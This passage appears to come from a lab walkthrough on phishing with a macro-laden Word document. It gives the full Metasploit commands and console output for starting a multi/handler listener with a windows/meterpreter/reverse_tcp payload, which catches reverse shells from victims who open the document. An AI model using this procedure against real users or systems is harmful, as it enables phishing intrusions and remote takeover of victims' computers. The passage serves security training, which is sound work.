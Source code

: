 ![](virustotal.png){: width="966" height="1071"}

## Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run **msfconsole** to start the Metasploit Framework
- use **multi/handler** to handle incoming connections
- **set payload windows/meterpreter/reverse_tcp** to ensure that our payload works with the payload used when creating the malicious macro
- **set LHOST CONNECTION_IP** specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- **set LPORT 8888** specifies the port number you are going to listen on and should be the same as the one used when creating the document
- **show options** to confirm the values of your options
- **exploit** starts listening for incoming connections to establish a reverse shell

```console
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888
```
